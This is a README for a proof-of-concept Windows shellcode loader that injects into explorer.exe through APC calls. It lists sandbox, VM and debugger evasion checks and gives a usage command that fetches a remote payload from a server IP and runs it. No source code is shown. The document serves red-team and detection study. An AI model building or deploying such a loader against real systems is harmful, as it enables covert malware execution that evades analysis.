

# PoC Shellcode APC-Inject Load

A feature-rich, stealth-oriented Windows shellcode loader written in C++ utilizing Asynchronous Procedure Call (APC) injection. Designed for educational purposes, red teaming operations, and studying endpoint detection mechanisms.

---

## Process Execution Screenshot



---

## Key Features

* **Remote Payload Fetching:** Downloads raw shellcode dynamically over HTTP using the native Windows WinHTTP API.
* **Sandbox & Virtualization Detection:** Scans for known VM artifacts, device drivers, and hypervisor signatures via direct `NtCreateFile` system object checks.
* **Host Resource Profiling:** Validates the environment's processor count, physical RAM size, and primary disk capacity before execution.
* **Memory & Debugger Checks:** Inspects working sets and handles interrupt exceptions to evade basic analysis.
* **APC Injection:** Injects payloads into target processes (`explorer.exe`) using queued Asynchronous Procedure Calls across active threads.

---

## Code Architecture

The project follows a structured execution flow:
1. **Security & Sandbox Checks:** Evaluates environment parameters to ensure it is not running in an analysis sandbox.
2. **HTTP Retrieval:** Connects to the server to download the payload via WinHTTP APIs.
3. **Target Search & Allocation:** Locates `explorer.exe`, allocates remote memory (`VirtualAllocEx`), and writes the payload (`WriteProcessMemory`).
4. **Execution:** Enumerates active threads and delivers the shellcode via `QueueUserAPC`.

---

## Compilation & Usage

### Requirements
* Visual Studio (MSVC) with Windows SDK.

### Command-Line Arguments
You can specify custom server IP and payload paths at runtime:

```bash
ShellcodeLoader.exe -server 192.168.1.100 -path /payload.bin
```